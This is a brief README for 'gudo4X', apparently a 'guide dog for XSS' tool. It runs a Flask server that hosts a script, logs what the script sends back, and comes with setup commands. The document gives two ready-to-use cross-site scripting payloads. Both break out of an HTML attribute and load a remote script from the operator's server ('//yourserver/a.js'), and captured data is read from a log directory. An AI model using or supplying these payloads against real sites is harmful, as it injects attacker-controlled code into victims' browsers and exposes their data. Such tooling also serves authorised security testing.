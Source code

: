 ## gudo4X - guide dog for xss

### dependencies
* install flask and magic

```bash
sudo apt update && sudo apt install -y python3-flask python3-magic
```

* (for https) put cert files in project directory (cert.pem, key.pem)

### running

```bash
sudo bash start.sh start &
```

* send the script in a xss:
```html
'"><script/src=//yourserver/a.js></script><"'
```

```html
'"><svg/onload=body.appendChild(createElement`script`).src="//yourserver/a.js"><"'
```

* see the log directory

### clean logs
```bash
sudo bash run.sh clean
```
### todo
- send basic info together
- reorganize log files
- good service management
- http and https 
- http authentication
